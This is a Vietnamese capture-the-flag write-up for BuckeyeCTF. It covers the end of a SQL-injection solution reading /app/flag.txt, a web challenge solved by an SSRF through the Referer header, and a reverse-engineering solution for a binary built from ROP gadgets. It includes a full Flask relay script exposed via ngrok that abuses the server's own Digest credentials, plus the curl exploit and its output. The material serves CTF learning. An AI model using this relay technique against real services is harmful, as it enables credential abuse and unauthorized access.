- Kết quả của readfile('/app/flag.txt') sẽ được trả như một cột của hàng UNION và hiển thị trong bảng HTML 



NOTE : Ảnh này mình lấy từ wu của 1 bạn, vì thời điểm mình viết wu thì giải đã end, có lẽ bên server bị vấn đề gì đó nên mình không thể truy vấn được. 

`FLAG : bctf{y0uv3_g0t_4n_apt17ud3_f0r_7h15}`

## 4. AUTHMAN


Nhận định ban đầu khi xem qua web chall, đó là khi truy cập `https://authman.challs.pwnoh.io/` sẽ hiện cho ta 1 con CHÓ, bấm vào con CHÓ sẽ chuyển tiếp đến trang yêu cầu ta đăng nhập gồm username và pass. Suy đoán đầu tiên thì có vẻ là nhập đúng thì sẽ in ra cái gì đó. 

Tôi tiến hành đọc source code để xem có gì hay ho thì tôi nhận thấy file `routes.py` và `config.py` sẽ là file cần quan tâm :

```python
#routes.py
from flask import render_template, request as r, jsonify
from requests.auth import HTTPDigestAuth
from app import app, auth
import requests
 
@app.route('/',methods=['GET'])
def index():
    return render_template("index.html")

@app.route('/auth',methods=['GET'])
@auth.login_required
def auth():
    return render_template("auth.html",flag=app.config['FLAG'])

@app.route('/api/check',methods=['GET'])
def check():
    (user, pw), *_ = app.config['AUTH_USERS'].items()
    res = requests.get(r.referrer + '/auth',
        auth = HTTPDigestAuth(user,pw),
        timeout=3
    )
    return jsonify({'status':res.status_code})
```
```python
#config.py
from secrets import token_urlsafe, token_hex
import os

class FlaskConfig:
	SECRET_KEY = token_hex(32)
	AUTH_USERS = {
    	"keno": token_urlsafe(16),
    	"tenk": token_urlsafe(16)
	}
	FLAG = os.environ.get('FLAG','bctf{fake_flag_for_testing}')
	# print(AUTH_USERS)
```
Phân tích : 
- trang chính `/` chỉ dùng render template `index.html` chính là cái trang có con CHÓ
- tiếp theo thì endpoint `/auth` được bảo vệ bằng `@auth.login_required` , và khi đã xác thực thành công thì sẽ render `auth.html` và truyền `flag` vào
- thế nhưng username và pass thật lại được sinh 1 cách ngẫu nhiên trong config.py 
- ta thấy có endpoint /api/check lấy r.referrer và gọi requests.get(r.referrer + '/auth', auth=HTTPDigestAuth(user,pw)) — tức là target sẽ làm HTTP request tới url mà ta truyền vào referer với credentials nội bộ (user,pw). Ta có thể thực hiện SSRF



### Exploit

Tôi sẽ tiến hành dựng 1 server để chuyển tiếp

```python 
import re, sys
from flask import Flask, request, Response
import requests

TARGET_AUTH = "https://authman.challs.pwnoh.io/auth"
HOP_BY_HOP = {
    "connection", "keep-alive", "proxy-authenticate", "proxy-authorization",
    "te", "trailer", "transfer-encoding", "upgrade", "content-encoding",
    "content-length", "host"
}

app = Flask(__name__)

def extract_flag(text: str):
    m = re.search(r"(bctf\{[^}]+\})", text, flags=re.I)
    if m:
        return m.group(1)
    m2 = re.search(r"const\\s+gg\\s*=\\s*(?P<q>['\\\"]).*?(?P=q)", text, flags=re.S)
    if m2:
        s2 = re.search(r"['\\\"](.*?)['\\\"]", m2.group(0), flags=re.S)
        if s2:
            return s2.group(1)
    return None

@app.route("/auth", methods=["GET"])
def passthru_auth():
    fwd_headers = {}
    for k, v in request.headers.items():
        lk = k.lower()
        if lk in HOP_BY_HOP or lk == "accept-encoding":
            continue
        fwd_headers[k] = v

    has_auth = "Authorization" in request.headers
    print("---- /auth passthru ----",
          f"AuthHeader={has_auth}",
          f"From={request.headers.get('X-Forwarded-For','?')}", sep="\n")

    r = requests.get(TARGET_AUTH, headers=fwd_headers, allow_redirects=False, timeout=10)
    body = r.text or ""
    print(f"Upstream status: {r.status_code}")
    if r.status_code == 401 and "WWW-Authenticate" in r.headers:
        print("[*] 401 challenge relayed to client")
    else:
        flag = extract_flag(body)
        if flag:
            print(f"[+] FLAG: {flag}")

    resp = Response(body, status=r.status_code)
    for k, v in r.headers.items():
        lk = k.lower()
        if lk in HOP_BY_HOP:
            continue
        resp.headers[k] = v
    return resp

@app.route("/")
def home():
    return "AUTHMAN Transparent Relay ready. Use /auth"

if __name__ == "__main__":
    port = 8080 if len(sys.argv) < 2 else int(sys.argv[1])
    app.run(host="0.0.0.0", port=port, debug=False)
```

Chạy file để lắng nghe endpoint /auth về localhost

```
D:\CTF\BuckeyeCTF\web\authman>python relay_passthru.py
 * Serving Flask app 'relay_passthru'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:8080
 * Running on http://192.168.2.6:8080
Press CTRL+C to quit
```

CHạy ngrok để target có thể gọi từ Internet và từ đó nó forward về local

```
ngrok http http://127.0.0.1:8080

ngrok                                                                                                   (Ctrl+C to quit)

�  Block threats before they reach your services with new WAF actions → https://ngrok.com/r/waf

Session Status                online
Account                       Cao Ngọc Hiếu (Plan: Free)
Update                        update available (version 3.32.0, Ctrl-U to update)
Version                       3.22.1
Region                        Asia Pacific (ap)
Latency                       70ms
Web Interface                 http://127.0.0.1:4040
Forwarding                    https://9aba900890ab.ngrok-free.app -> http://127.0.0.1:8080

Connections                   ttl     opn     rt1     rt5     p50     p90
                              0       0       0.00    0.00    0.00    0.00

```

Lệnh curl -v 'https://authman.challs.pwnoh.io/api/check' -H 'Referer: url_của_máy_chủ_trung_gian'

```
└─$ curl -v 'https://authman.challs.pwnoh.io/api/check' -H 'Referer: https://9aba900890ab.ngrok-free.app'
* Host authman.challs.pwnoh.io:443 was resolved.
* IPv6: 2600:1f16:75:1c01::4
* IPv4: 13.59.87.89
*   Trying [2600:1f16:75:1c01::4]:443...
* Immediate connect fail for 2600:1f16:75:1c01::4: Network is unreachable
*   Trying 13.59.87.89:443...
* ALPN: curl offers h2,http/1.1
* TLSv1.3 (OUT), TLS handshake, Client hello (1):
*  CAfile: /etc/ssl/certs/ca-certificates.crt
*  CApath: /etc/ssl/certs
* TLSv1.3 (IN), TLS handshake, Server hello (2):
* TLSv1.3 (IN), TLS change cipher, Change cipher spec (1):
* TLSv1.3 (IN), TLS handshake, Encrypted Extensions (8):
* TLSv1.3 (IN), TLS handshake, Certificate (11):
* TLSv1.3 (IN), TLS handshake, CERT verify (15):
* TLSv1.3 (IN), TLS handshake, Finished (20):
* TLSv1.3 (OUT), TLS change cipher, Change cipher spec (1):
* TLSv1.3 (OUT), TLS handshake, Finished (20):
* SSL connection using TLSv1.3 / TLS_AES_128_GCM_SHA256 / X25519MLKEM768 / id-ecPublicKey
* ALPN: server accepted h2
* Server certificate:
*  subject: CN=*.challs.pwnoh.io
*  start date: Nov  5 17:55:40 2025 GMT
*  expire date: Feb  3 17:55:39 2026 GMT
*  subjectAltName: host "authman.challs.pwnoh.io" matched cert's "*.challs.pwnoh.io"
*  issuer: C=US; O=Let's Encrypt; CN=E7
*  SSL certificate verify ok.
*   Certificate level 0: Public key type EC/secp384r1 (384/192 Bits/secBits), signed using ecdsa-with-SHA384
*   Certificate level 1: Public key type EC/secp384r1 (384/192 Bits/secBits), signed using sha256WithRSAEncryption
*   Certificate level 2: Public key type RSA (4096/152 Bits/secBits), signed using sha256WithRSAEncryption
* Connected to authman.challs.pwnoh.io (13.59.87.89) port 443
* using HTTP/2
* [HTTP/2] [1] OPENED stream for https://authman.challs.pwnoh.io/api/check
* [HTTP/2] [1] [:method: GET]
* [HTTP/2] [1] [:scheme: https]
* [HTTP/2] [1] [:authority: authman.challs.pwnoh.io]
* [HTTP/2] [1] [:path: /api/check]
* [HTTP/2] [1] [user-agent: curl/8.15.0]
* [HTTP/2] [1] [accept: */*]
* [HTTP/2] [1] [referer: https://9aba900890ab.ngrok-free.app]
> GET /api/check HTTP/2
> Host: authman.challs.pwnoh.io
> User-Agent: curl/8.15.0
> Accept: */*
> Referer: https://9aba900890ab.ngrok-free.app
>
* TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
* Request completely sent off
< HTTP/2 200
< content-type: application/json
< date: Wed, 12 Nov 2025 14:45:06 GMT
< server: Werkzeug/3.1.3 Python/3.12.12
< content-length: 15
<
{"status":200}
* Connection #0 to host authman.challs.pwnoh.io left intact
```

Check lại trong terminal đang chạy listening để xem nó trả về cái gì

```
D:\CTF\BuckeyeCTF\web\authman>python relay_passthru.py
 * Serving Flask app 'relay_passthru'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:8080
 * Running on http://192.168.2.6:8080
Press CTRL+C to quit
---- /auth passthru ----
AuthHeader=False
From=13.59.87.89
Upstream status: 401
[*] 401 challenge relayed to client
127.0.0.1 - - [12/Nov/2025 21:45:08] "GET /auth HTTP/1.1" 401 -
---- /auth passthru ----
AuthHeader=True
From=13.59.87.89
Upstream status: 200
[+] FLAG: bctf{a_new_dog_learns_old_tricks}
127.0.0.1 - - [12/Nov/2025 21:45:09] "GET /auth HTTP/1.1" 200 -

```

Giải thích luồng hoạt động : 
- chuẩn bị relay, listen trên port tuỳ. Public ra thông qua ngrok 
- ssrf trên target bằng : `curl -v 'https://authman.challs.pwnoh.io/api/check' \
  -H 'Referer: https://<your-ngrok>'`
- target sẽ thực hiện request tới relay (không có authorization)
- relay chuyển tiếp đến thằng `authman.challs.pwnoh.io/auth`
- upstream trả về WWW-Authenticate (nonce, opaque, qop, realm)
- relay trả nguyên header ý về target, target thấy và tự tạo Authorization
- target gửi lại lượt 2 có Authorization tới relay
- relay forward lượt 2 tới upstream — upstream xác nhận Authorization -> trả 200 + HTML
- relay nhận body, extract_flag() tìm bctf{...} và in [+] FLAG: bctf{...} vào console

`FLAG : bctf{a_new_dog_learns_old_tricks}`


# III. RE
## Lonely Bot

Bài này tôi update sau nên là cũng chả có Descripton của bài :vvvv

Bài cho 1 file tên `lonely_bot`

Bước đầu ta cứ cho vào DIE và thực thi thử xem hành vi của nó như nào



1 file ELF bình thường

```bash
(base) ┌──(hieesu19㉿DESKTOP-BFB0MA5)-[/mnt/d/CTF/BuckeyeCTF/re/bot]
└─$ ./lonely_bot
What's your favorite number? :D
123
Ah, a fan of "123"...
Goodbye.

(base) ┌──(hieesu19㉿DESKTOP-BFB0MA5)-[/mnt/d/CTF/BuckeyeCTF/re/bot]
└─$ ./lonely_bot
What's your favorite number? :D
0xaaa
Ah, a fan of "0xaaa"...
Goodbye.
```

Khi cho vào IDA để decompiler thì đây là hàm main của nó 
```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  unsigned __int64 i; // [rsp+0h] [rbp-8h] BYREF

  for ( i = 0; i <= 0x9E; ++i )
    *(&i + i + 2) = (unsigned __int64)*(&off_5020 + i);
  return 0;
}
```
Trông khá ngắn phải không? 
- trong decompiler, biến i là local, kiểu `unsigned __int64` tức 8 bytes và &i là địa chỉ của biến i (tại rbp-8h)
- `&i + i + 2` khi bắt đầu với i = 0 thì sẽ ở địa chỉ `rbp + 8`, mà đó chính là saved RIP (return address) và khi i++ thì nó dịch lên 8 byte, hay dịch QWORD trên stack

=> nó đang đè return address và các slot sau nó bằng dữ liệu từ `&off_5020` . Đây chính là dấu hiệu nhận biết của `ROP` , hàm main chỉ đơn giản copy 1 bảng QWORD lên stack rồi thoát, khi ret thì mới bắt đầu thực sự chạy chương trình

Ta sẽ xem 0x9E QWORD từ offest `&off_5020`, tức là đến offset (0x5020 + (0x8 * 0x9E)) = 0x5510

Giờ ta sẽ sử dụng `ROPgadget` để xem nhanh instruction của từng gadget và offset có trong file

```code
└─$ ROPgadget --binary lonely_bot
Gadgets information
============================================================
0x0000000000002133 : adc bl, al ; mov rsi, qword ptr [rsi] ; ret
0x0000000000002141 : add al, 0x48 ; add esp, 8 ; ret
0x000000000000211b : add byte ptr [rax], 0 ; add byte ptr [rax], al ; endbr64 ; jmp 0x20a0
0x0000000000002093 : add byte ptr [rax], 0 ; add byte ptr [rax], al ; ret
0x000000000000211c : add byte ptr [rax], al ; add byte ptr [rax], al ; endbr64 ; jmp 0x20a0
0x000000000000222c : add byte ptr [rax], al ; add byte ptr [rax], al ; endbr64 ; ret
0x0000000000002160 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x21a3
0x00000000000021b0 : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x0000000000002094 : add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x0000000000002110 : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax] ; ret
0x000000000000211e : add byte ptr [rax], al ; endbr64 ; jmp 0x20a0
0x000000000000222e : add byte ptr [rax], al ; endbr64 ; ret
0x0000000000002162 : add byte ptr [rax], al ; jmp 0x21a3
0x00000000000021b2 : add byte ptr [rax], al ; pop rbp ; ret
0x0000000000002096 : add byte ptr [rax], al ; ret
0x000000000000200d : add byte ptr [rax], al ; test rax, rax ; je 0x2016 ; call rax
0x0000000000002088 : add byte ptr [rax], al ; test rax, rax ; je 0x2098 ; jmp rax
0x00000000000020c9 : add byte ptr [rax], al ; test rax, rax ; je 0x20d8 ; jmp rax
0x00000000000020d5 : add byte ptr [rax], r8b ; ret
0x0000000000002111 : add byte ptr [rcx], al ; pop rbp ; ret
0x00000000000021ac : add byte ptr [rsi - 0x49], dh ; mov eax, 0 ; pop rbp ; ret
0x0000000000002112 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax] ; ret
0x000000000000214d : add esp, 0x1a0 ; ret
0x0000000000002017 : add esp, 8 ; ret
0x000000000000214c : add rsp, 0x1a0 ; ret
0x0000000000002016 : add rsp, 8 ; ret
0x00000000000020c7 : and eax, 0x4800002f ; test eax, eax ; je 0x20d8 ; jmp rax
0x0000000000002128 : call ptr [rdi - 0x3d]
0x0000000000002014 : call rax
0x000000000000215f : clc ; add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x21a3
0x000000000000214b : cli ; add rsp, 0x1a0 ; ret
0x0000000000002123 : cli ; jmp 0x20a0
0x0000000000002233 : cli ; ret
0x000000000000223b : cli ; sub rsp, 8 ; add rsp, 8 ; ret
0x0000000000002120 : endbr64 ; jmp 0x20a0
0x0000000000002230 : endbr64 ; ret
0x000000000000220c : fisttp word ptr [rax - 0x7d] ; ret
0x000000000000200b : fldcw word ptr [rdi] ; add byte ptr [rax], al ; test rax, rax ; je 0x2016 ; call rax
0x000000000000215b : in eax, 0x48 ; mov dword ptr [rbp - 8], 0 ; jmp 0x21a3
0x00000000000021ad : jbe 0x2166 ; mov eax, 0 ; pop rbp ; ret
0x0000000000002012 : je 0x2016 ; call rax
0x000000000000208d : je 0x2098 ; jmp rax
0x00000000000020ce : je 0x20d8 ; jmp rax
0x0000000000002124 : jmp 0x20a0
0x0000000000002164 : jmp 0x21a3
0x000000000000208f : jmp rax
0x000000000000214a : jne 0x2146 ; add rsp, 0x1a0 ; ret
0x0000000000002140 : jne 0x2146 ; add rsp, 8 ; ret
0x00000000000020d1 : loopne 0x2139 ; nop dword ptr [rax + rax] ; ret
0x00000000000021ae : mov bh, 0xb8 ; add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x000000000000210c : mov byte ptr [rip + 0x340d], 1 ; pop rbp ; ret
0x0000000000002132 : mov dword ptr [rax], edx ; ret
0x000000000000215d : mov dword ptr [rbp - 8], 0 ; jmp 0x21a3
0x00000000000021af : mov eax, 0 ; pop rbp ; ret
0x0000000000002136 : mov esi, dword ptr [rsi] ; ret
0x0000000000002131 : mov qword ptr [rax], rdx ; ret
0x000000000000215c : mov qword ptr [rbp - 8], 0 ; jmp 0x21a3
0x0000000000002135 : mov rsi, qword ptr [rsi] ; ret
0x00000000000020d3 : nop dword ptr [rax + rax] ; ret
0x0000000000002091 : nop dword ptr [rax] ; ret
0x00000000000020d2 : nop word ptr [rax + rax] ; ret
0x00000000000020cf : or bh, bh ; loopne 0x2139 ; nop dword ptr [rax + rax] ; ret
0x000000000000210e : or eax, 0x1000034 ; pop rbp ; ret
0x000000000000221c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000000221e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000002220 : pop r14 ; pop r15 ; ret
0x0000000000002222 : pop r15 ; ret
0x000000000000212f : pop rax ; ret
0x000000000000221b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000000221f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000002113 : pop rbp ; ret
0x0000000000002129 : pop rdi ; ret
0x000000000000212d : pop rdx ; ret
0x0000000000002221 : pop rsi ; pop r15 ; ret
0x000000000000212b : pop rsi ; ret
0x000000000000221d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000000201a : ret
0x0000000000002170 : ret 0x4802
0x0000000000002180 : retf 0x8d48
0x000000000000213f : sal byte ptr [rbp + 4], 0x48 ; add esp, 8 ; ret
0x0000000000002011 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x000000000000223d : sub esp, 8 ; add rsp, 8 ; ret
0x000000000000223c : sub rsp, 8 ; add rsp, 8 ; ret
0x0000000000002010 : test eax, eax ; je 0x2016 ; call rax
0x000000000000208b : test eax, eax ; je 0x2098 ; jmp rax
0x00000000000020cc : test eax, eax ; je 0x20d8 ; jmp rax
0x000000000000213e : test eax, eax ; jne 0x2146 ; add rsp, 8 ; ret
0x000000000000200f : test rax, rax ; je 0x2016 ; call rax
0x000000000000208a : test rax, rax ; je 0x2098 ; jmp rax
0x00000000000020cb : test rax, rax ; je 0x20d8 ; jmp rax
0x000000000000213d : test rax, rax ; jne 0x2146 ; add rsp, 8 ; ret
0x000000000000210f : xor al, 0 ; add byte ptr [rcx], al ; pop rbp ; ret
0x000000000000213a : xor dword ptr [rax], esi ; ret
0x0000000000002139 : xor qword ptr [rax], rsi ; ret

Unique gadgets found: 94
```

Đến đây ta đã có đủ dữ kiện để map với `&off_5020`, có thể rename để xem cho dễ. Những vẫn còn một số gadget mà ROPgadget không bắt được do vài lý do thì ta cần phải xem chay tập lệnh của nó

Có thể sử dụng chatgpt free để hỗ trợ đoạn xem logic này.

- Đầu tiên là ghép từng 8 byte vào 1 để tạo string rồi gọi `puts()` để in ra câu hỏi
- đọc input bằng `read()`
- cắt newline bằng `strchr()`
- tạo dữ liệu `expected` và `key` gồm expected0 và expeected1 ; key0 và key1
- biến đổi input thành 2 QWORD là q0 và q1
- XOR : q0 ^= key0 ; q1 ^= key1
- So sánh :q0 == expected0 và q1 == expected1 thì đúng
- If
  - nhánh false : in ra msg fail và thoát
  - nhánh true : dùng expected0 làm key, có 1 mảng QWORD enc_flag[3], chỉ cần xor từng cái với key là ra


[Explain](temp.py)

```python
from struct import pack

expected0 = 0x5CE8A297FA50CC11
expected1 = 0x00006E8EEA35727D
key0      = 0x25BCCCA48C35FD54
key1      = 0x000020EB9C06215D

enc = [0x6880F6EC9C24AF73, 0x1FD9CCC89B0FF965, 0x2EDBE0DA8F1E9322]
last = 0x6C ^ 0x11  # '}'

inp = pack("<Q", expected0 ^ key0) + pack("<Q", expected1 ^ key1)
print("input:", inp.split(b"\0", 1)[0].decode())

flag = b"".join(pack("<Q", x ^ expected0) for x in enc) + bytes([last])
print("flag:", flag.decode())
```
<details>
<summary><b>FLAG</b></summary>
bctf{Th4t5_a_n1C3_NuMB3r}
</details>


